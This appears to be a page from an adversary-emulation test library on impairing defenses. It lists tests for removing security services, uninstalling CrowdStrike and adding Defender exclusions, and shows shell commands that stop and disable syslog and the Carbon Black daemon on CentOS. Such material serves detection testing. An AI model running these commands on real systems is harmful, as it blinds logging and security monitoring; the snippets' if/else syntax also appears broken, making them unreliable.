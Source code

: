 - [Atomic Test #19 - Stop and Remove Arbitrary Security Windows Service](#atomic-test-19---stop-and-remove-arbitrary-security-windows-service)

- [Atomic Test #20 - Uninstall Crowdstrike Falcon on Windows](#atomic-test-20---uninstall-crowdstrike-falcon-on-windows)

- [Atomic Test #21 - Tamper with Windows Defender Evade Scanning -Folder](#atomic-test-21---tamper-with-windows-defender-evade-scanning--folder)

- [Atomic Test #22 - Tamper with Windows Defender Evade Scanning -Extension](#atomic-test-22---tamper-with-windows-defender-evade-scanning--extension)

- [Atomic Test #23 - Tamper with Windows Defender Evade Scanning -Process](#atomic-test-23---tamper-with-windows-defender-evade-scanning--process)


<br/>

## Atomic Test #1 - Disable syslog
Disables syslog collection

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`!


```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi
```






<br/>
<br/>

## Atomic Test #2 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`!


```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi
```
